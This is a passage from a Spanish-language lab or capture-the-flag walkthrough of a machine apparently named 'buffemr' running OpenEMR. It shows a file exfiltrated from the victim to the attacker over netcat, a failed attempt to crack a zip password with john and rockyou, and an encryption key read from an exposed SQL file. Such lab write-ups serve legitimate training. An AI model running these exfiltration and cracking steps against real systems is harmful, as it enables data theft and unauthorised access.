 Con **< user.zip** envio el archivo user.zip

```bash
www-data@buffemr:/var$ nc -w 3 192.168.0.36 1234 < user.zip
```
Desde la maquina atacante uso el comando nc para recibir el archivo con los siguientes parametros

| Parametro | Descripcion           |
| -l        | Modo escucha          |
| -n        | IP numerica           |
| -v        | Informacion detallada |
| -p 1234   | Puerto                |

Con **> user.zip** guardo la informacion recibida en el archivo user.zip

```bash
❯ nc -lnvp 1234 > user.zip
listening on [any] 1234 ...
connect to [192.168.0.36] from (UNKNOWN) [192.168.0.219] 35666
```

Intento descomprimir el archivo pero no puedo porque tiene contraseña.

Monster123 no es valida

intento crackear la contraseña con john

```bash
$ zip2john user.zip > hash

$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:09 DONE (2023-05-31 21:41) 0g/s 1511Kp/s 1511Kc/s 1511KC/s !jonaluz28!..*7¡Vamos!
Session completed

```

No se puede crackear con john

Busco credenciales de la base de datos para ver si encuentro contraseñas que pueda reutilizar en el archivo

En la maquina victima no encontre nada relevante

Vuelvo a los archivos compartidos por ftp y me encuentro con la carpeta **sql** en la cual hay un archivo **keys.sql**

```bash
$ cat 192.168.0.219/share/openemr/sql/keys.sql

CREATE TABLE ENCKEY(id INT, name VARCHAR(20), enckey VARCHAR(50));

INSERT into ENCKEY (id, name, enckey) VALUES (1, "pdfkey", "c2FuM25jcnlwdDNkCg==");
```
